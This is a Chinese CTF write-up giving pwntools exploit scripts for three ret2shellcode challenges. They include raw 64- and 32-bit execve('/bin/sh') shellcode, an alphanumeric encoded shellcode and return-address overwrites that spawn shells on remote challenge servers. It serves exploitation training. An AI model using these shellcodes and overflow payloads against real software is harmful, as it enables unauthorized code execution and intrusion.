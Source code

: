 ```yaml
---
title: PWN入门-ret2shellcode做题
date: 2024-01-26 22:33:47
tags: PWN
mathjax: true
---
```


# PWN入门-ret2shellcode做题

## [HNCTF 2022 Week1]ret2shellcode

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
p=remote("node5.anna.nssctf.cn",28261)
elf=ELF('./attachment')
shellcode=asm(shellcraft.sh()).ljust(0x108,b'a')
buff_addr=p64(elf.sym["buff"])
payload1=flat([shellcode,buff_addr])
p.sendline(payload1)
p.interactive()
```

## [GDOUCTF 2023]Shellcode

```python
# 64位短shellcode 23字节：\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
# 32位短shellcode 21字节：\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

from pwn import *
context(log_level='debug',os='linux',arch='amd64')
elf=ELF('./attachment')
p=remote("node4.anna.nssctf.cn",28141)
# p=process('./attachment')
p.recvuntil("Please.")
shellcode1=b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
payload1=shellcode1
p.sendline(payload1)
p.recvuntil("Let's start!")
stack_overflow=b'a'*(0xa+8)
buf_addr=p64(elf.sym["name"])
payload2=flat([stack_overflow,buf_addr])
p.sendline(payload2)
p.interactive()
```

## [HNCTF 2022 Week1]safe_shellcode

可见字符shellcode，可用工具有： https://github.com/veritas501/ae64 和 https://github.com/SkyLined/alpha3 ，后者年久失修没法用了。

AE64要注意设置调用buff所在处使用的寄存器为rax，即`call rax`。

```python
from pwn import *
from ae64 import *
context(log_level='debug',os='linux',arch='amd64')
p=remote("node5.anna.nssctf.cn",28988)
elf=ELF('./attachment')
ae64obj=AE64()
shellcode=ae64obj.encode(asm(shellcraft.sh()),'rax')
buff_addr=p64(elf.sym["buff"])
payload1=flat([shellcode.ljust(0x220+0x8,b'\x00'),buff_addr])
p.sendline(payload1)
p.interactive()
```

通过alpha3求出的shellcode为：

```
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```
